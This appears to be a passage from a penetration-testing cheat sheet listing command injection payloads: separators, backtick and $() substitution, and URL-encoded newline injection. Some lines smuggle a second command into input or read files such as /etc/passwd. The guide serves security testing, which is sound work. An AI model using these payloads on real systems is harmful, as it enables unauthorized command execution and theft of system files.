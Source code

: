 Used to chain multiple commands together. Tests if the application properly sanitizes command separators:

```bash
# Semicolon (;) - Command sequencing
command1;command2        # Executes commands sequentially
ping 127.0.0.1;id       # Executes ping, then id
echo test;whoami        # Outputs test, then username

# Ampersand (&) - Background processing
command1&command2       # Executes both commands in background
ping 127.0.0.1&dir     # Starts ping and immediately runs dir
whoami&hostname        # Runs both commands simultaneously

# Double Ampersand (&&) - Conditional execution
command1&&command2      # Executes command2 only if command1 succeeds
ping 127.0.0.1&&whoami # Runs whoami only if ping succeeds
cd /tmp&&ls -la        # Lists directory only if cd succeeds

# Pipe (|) - Output redirection
command1|command2      # Sends output of command1 to command2
whoami|tr a-z A-Z     # Converts username to uppercase
ls -la|grep root      # Lists files and filters for 'root'
```

#### Command Substitution Tests

Tests if the application allows command output to be used as input:

```bash
# Backtick (`) substitution
`command`             # Classic command substitution
echo `whoami`        # Outputs result of whoami
ping `hostname`      # Pings the result of hostname

# Dollar substitution
$(command)           # Modern command substitution
echo $(id)          # Outputs result of id
cat $(locate passwd) # Reads files found by locate

# Nested substitution
$(echo `whoami`)    # Nested classic in modern
`echo $(hostname)`  # Nested modern in classic
```

#### Newline Injection Tests

Tests if the application properly handles line breaks in commands:

```bash
# URL encoded newlines
command1%0acommand2  # %0a represents \n
ping%0aid           # Executes ping, then id on new line
whoami%0als         # Runs whoami, then ls

# Carriage return injection
command1%0dcommand2  # %0d represents \r
echo test%0dcat /etc/passwd  # Potentially bypasses filters
```
